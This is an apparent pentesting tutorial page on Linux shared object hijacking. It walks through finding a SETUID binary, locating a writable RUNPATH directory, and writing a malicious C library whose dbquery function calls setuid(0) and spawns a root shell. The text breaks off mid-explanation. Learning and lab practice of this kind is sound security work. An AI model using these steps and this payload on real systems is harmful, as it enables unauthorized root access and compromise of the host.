

repository: amandaguglieri/hackinglife · page: shared-object-hijacking/index.html · generator: mkdocs

---
title: Shared Object Hijacking
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - privilege
  - escalation
  - linux
---
# Shared Object Hijacking

**1.** Identifying the SETUID Binary

Identify a binary with a **SETUID binary** (owned by root and has the SUID bit set), which means it executes with root privileges.

**2.** Using ldd, we inspect the shared libraries required by the binary.

`Ldd` displays the location of the object and the hexadecimal address where it is loaded into memory for each of a program's dependencies.

```shell-session
ldd NameOfBinary
```

Programs and binaries under development usually have custom libraries associated with them. 

If we  notice that something is loaded from a non-standard library and a non standard location, such as `/development/libshared.so`, this might indicate a potential vulnerability.

**3.** Checking the RUNPATH Configuration.

To determine how the binary finds shared libraries, we inspect it using `readelf`.

```shell-session
readelf -d NameOfBinary  | grep PATH
```

If the configuration allows the loading of libraries from a folder writable by us, we could place a malicious library in it,  which will take precedence over other folders because entries in this file are checked first. Since, in the output from the example, `/development` is specified in `RUNPATH`, any shared object in this directory will be preferred.

**4.** Checking Write Permissions

`/development` comes from the example:

```
ls -la /development/
```

The presence of `drwxrwxrwx` (777 permissions) confirms that any user can write to this directory.


**5.** Testing the Exploitability

To check whether the binary loads the shared object from /development, we place a dummy libshared.so in that directory.

```
cp /lib/x86_64-linux-gnu/libc.so.6 /development/libshared.so
./NameOfBinary
```

Output:

```
./NameOfBinary: symbol lookup error: ./NameOfBinary: undefined symbol: dbquery
```

The error message indicates that `payroll` expects a function called `dbquery`, which isn't present in our copied library. This confirms that we can control the library.

**6.** Crafting a Malicious Shared Object

Since the binary is searching for `dbquery`, we create a malicious shared object named src.c with this function.

```C
#include<stdio.h> 
#include<stdlib.h> 
#include<unistd.h>  

void dbquery() {
	printf("Malicious library loaded\n");     
	setuid(0);     
	system("/bin/sh -p"); 
}
```

The `dbquery` function:
